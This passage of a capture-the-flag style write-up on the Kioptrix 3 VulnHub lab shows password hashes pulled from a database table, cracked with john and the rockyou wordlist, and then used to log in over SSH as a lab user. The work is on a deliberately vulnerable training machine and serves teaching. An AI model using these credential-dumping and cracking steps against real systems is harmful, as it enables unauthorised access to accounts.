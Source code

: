 Easy enough. After this I looked around through the SQL tables for a while, and eventually found some hashed user passwords in the `dev_accounts` table in the `gallery` database:

```bash
	Full Texts 	id 	username 	password
	Edit 	Delete 	1 	dreg 		0d3eccfb887aabd50f243b3f155c0f85
	Edit 	Delete 	2 	loneferret 	5badcaf789d3d1d09794d8f021f40f0e
```

Let's pipe these over to `john` and try to crack them:

```bash
ein@~/VulnHub/Kioptrix1.2:$ /usr/sbin/john --wordlist=rockyou.txt --format=RAW-MD5 passwords
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
fopen: rockyou.txt: No such file or directory
ein@~/VulnHub/Kioptrix1.2:$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5 passwords
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
starwars         (?)
Mast3r           (?)
2g 0:00:00:00 DONE (2020-07-29 01:31) 2.380g/s 12897Kp/s 12897Kc/s 12898KC/s Maswhit002..MashPt34
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
ein@~/VulnHub/Kioptrix1.2:$ cat passwords 
0d3eccfb887aabd50f243b3f155c0f85
5badcaf789d3d1d09794d8f021f40f0e
```

Nice! so we got the cleartext password for both users. I'll start by trying to SSH as `loneferret`:

```bash
ein@~/VulnHub/Kioptrix1.2:$ ssh loneferret@kio3
The authenticity of host 'kio3 (10.0.0.204)' can't be established.
RSA key fingerprint is SHA256:NdsBnvaQieyTUKFzPjRpTVK6jDGM/xWwUi46IR/h1jU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kio3,10.0.0.204' (RSA) to the list of known hosts.
loneferret@kio3's password: 
Permission denied, please try again.
loneferret@kio3's password: 
Permission denied, please try again.
loneferret@kio3's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$
```
